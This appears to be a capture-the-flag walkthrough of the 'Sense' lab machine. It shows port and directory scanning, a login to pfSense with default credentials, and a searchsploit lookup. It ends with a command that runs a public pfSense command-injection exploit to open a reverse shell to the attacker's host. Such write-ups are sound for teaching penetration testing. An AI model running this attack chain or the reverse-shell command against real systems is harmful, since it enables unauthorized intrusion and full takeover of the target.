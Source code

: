 # Sense

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.96 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 07:48 EDT
Nmap scan report for 10.129.85.96
Host is up (0.0088s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

2 ports that are open.

### pfSense Creds + RCE

Visiting the IP address redirects us to port 443 where pfSense is running:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run a `dirbuster` scan to see what else is on the port because we have no credentials right now. We can include all the common extensions using `-e php,html,txt` to see all possible files on the machine.

```bash
$ dirbuster -u https://10.129.85.96/ -t 20 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,txt,html
<TRUNCATED>
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
FIle Found: /system-users.txt - 200
```

One of them is called `system-users.txt`. The file contains this:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

So the username is Rohit and the password is the default password. In this case, the default password for this software is `pfsense`. We can then login and see the version running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

This is an outdated version of pfSense running, and it is vulnerable to an RCE exploit.

```
$ searchsploit pfsense 2.1.3
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injec | php/webapps/43560.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can download this exploit and use it to get a reverse shell.

```bash
python3 43560.py --rhost 10.129.85.96 --lhost 10.10.14.13 --lport 4444 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (32) (1) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
